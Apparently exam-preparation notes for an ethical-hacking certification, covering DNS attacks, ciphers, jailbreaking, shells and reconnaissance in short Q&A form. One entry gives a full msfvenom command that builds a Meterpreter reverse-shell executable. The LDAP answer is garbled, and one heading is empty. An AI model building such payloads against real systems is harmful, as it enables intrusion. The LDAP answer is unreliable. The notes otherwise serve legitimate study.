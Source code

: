 ## Proxy Tool for Manual Testing
**Burp Suite** is ideal for working as a proxy, saving requests/responses, and manual parameter/header testing.

---

## First Step of DNS Cache Poisoning
Querying a nameserver is the first move to gather DNS information.

---

## Five-Tier Container Technology Architecture


---

## Protocol to Secure LDAP
Use **NTLM** (with a port, usually TCP 389/636 if encrypted), but **LDAPS (LDAP over SSL)** is more typical.

---

## LTE Attack Type
The attacker installing a fake tower is called an **aLTEr attack**.

---

## Symmetric Cipher with 128-bit Block and 256-bit Key
**Twofish** supports 128-bit block size and up to 256-bit key size.

---

## Block Size vs Key Size
- **Block Size:** Fixed chunk of data processed (e.g., 128 bits at a time).
- **Key Size:** Length of encryption key (affects security strength).

---

## Solving Plaintext Transmission
Switch to **HTTPS** (HTTP over SSL/TLS) to encrypt usernames/passwords.

---

## OS Detection with TTL Value
TTL of **128** usually indicates a **Windows** operating system.

---

## Whois + IP Info Retrieval
The hacker used **ARIN** to retrieve network range and topology data.

---

## Google Advanced Operator for Domain-Restricted Search
Use **`site:`** operator (e.g., `site:example.com`).

---

## Security Policy for Dial-out Modems
Check the **Remote-access policy** to verify permissions.

---

## Correct msfvenom Reverse Shell Command
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.12 LPORT=8888 -f exe > shell.exe
```

---

## Reverse Shell vs Bind Shell
- **Reverse Shell:** Attacker connects back (firewall friendly).
- **Bind Shell:** Attacker connects directly (requires open port).

---

## Reverse or Bind - Which Is Mostly Used?
**Reverse Shell** is mostly used because it's firewall/NAT-friendly.

---

## Bank URL Redirection Attack
The scenario describes a **DNS Hijacking** attack.

---

## CVSS v3.0 Basic Score 4.0
Severity Level: **Medium**.

---

## Difference: Pharming vs Phishing
- **Phishing:** Fake link via email/social engineering.
- **Pharming:** Redirecting by modifying DNS/hosts file.

---

## Virus Detection via Virtual Execution
**Code Emulation** is used to detect viruses by simulating them in a VM.

---

## Bluetooth Hacking: Theft of Information
**Bluesnarfing** involves stealing information via Bluetooth.

---

## Cyber Kill Chain Stage: Preparing Payload
John is at the **Weaponization** stage.

---

## SQLi Type using DNS Requests
**Out-of-band SQLi** leverages DNS to pass data to attackers.

---

## Firewall Evasion Scanning with Zombie
Technique is **Idle Scanning** (uses low-activity systems).

---

## Ping Command Flag Hidden Under "*"
The hidden flag is **`-n`** (Windows style for specifying number of Echo Requests).

---

## Cloud Attack on MSPs
Attack type is a **Cloud Hopper Attack**.

---

## IDS Evasion with Unicode Packets
Technique used: **Obfuscating**.

---

## iOS Jailbreaking Technique with Boot Patch
**Untethered Jailbreaking** — remains jailbroken after reboot without computer connection.

---

## iOS Jailbreaking Techniques Overview
- **Tethered:** Needs PC every reboot.
- **Semi-tethered:** Boots but no jailbreak functionality until PC reconnection.
- **Semi-untethered:** Boots normally; re-run app to jailbreak without PC.
- **Untethered:** Fully jailbroken even after reboot (no PC needed).

---

## DNS Tunneling Tool NSTX Port
Run NSTX over **Port 53** (standard DNS port).

---
